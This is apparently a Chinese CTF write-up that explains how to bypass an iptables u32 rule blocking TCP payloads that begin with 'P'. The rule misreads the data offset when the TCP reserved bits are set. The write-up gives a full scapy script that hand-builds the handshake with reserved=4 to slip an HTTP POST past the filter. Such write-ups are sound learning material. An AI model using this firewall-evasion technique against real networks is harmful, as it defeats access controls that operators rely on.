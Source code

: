 主要参考了这一篇来理解：[简单的益智类小游戏: iptables u32 过滤器，强大且好玩](https://zhuanlan.zhihu.com/p/584722105)。

然后发现，这就是在尝试判断 TCP 内容的第一个字符，要求它不能是 `P`。

但是 `@ 12 >> 26` 这一步，取到的不止有 `data offset`，还有 `reserved`。如果修改 `reserved` 让他偏移，就能绕过限制了。

实现上，我虽然知道各种语言都支持 raw socket，但是手动计算 checksum 之类的还挺烦的。最后一通搜索，发现有 scapy 这个库可以方便的构造包。

然后又是一通搜索、调试，然后发现莫名其妙被 RST，结果是本机对远端发来的 `SYNACK` 包 RST 了。总之又是通过 iptables 让系统不要插手。

```python
from scapy.all import *

sport = random.randint(1024, 65535)
init_seq = random.randint(0, 2**32 - 1)

token = 'xxx'

payload = '''POST / HTTP/1.1
Host: 202.38.93.111:18080
Accept: */*
User-Agent: curl
Content-Length: %d
Content-Type: application/x-www-form-urlencoded

%s''' % (len(token), token)

src = '192.168.24.2'
dst = '192.168.23.1'
dport = 18081
iface = 'hgovpn-guest'

# SYN
ip = IP(src=src, dst=dst)
SYN = TCP(sport=sport, dport=dport, flags='S', seq=init_seq, reserved=4)
pkt = ip / SYN
print('send', pkt)
print('raw', bytes(pkt))
SYNACK = sr1(pkt, iface=iface)
print('recv', SYNACK)
print(SYNACK.ack, SYNACK.seq)
print('=' * 100)

# SYN-ACK
ACK = TCP(sport=sport, dport=dport, flags='AP', seq=SYNACK.ack, ack=SYNACK.seq + 1, reserved=4)
data = Raw(load=payload)
pkt = ip / ACK / data
print('send', pkt)
print('raw', bytes(pkt))
resp = sr1(pkt, iface=iface)
print('recv', resp)
print(resp.ack, resp.seq)
print(bytes(resp))
print('=' * 100)

ACK = TCP(sport=sport, dport=dport, flags='A', seq=resp.ack, ack=resp.seq + 1, reserved=4)
pkt = ip / ACK
print('send', pkt)
resp2 = sr1(pkt, iface=iface)
print('recv', resp2)
print(resp2.ack, resp2.seq)
print(bytes(resp2))
print('###', resp2[TCP].payload)
print('=' * 100)
```
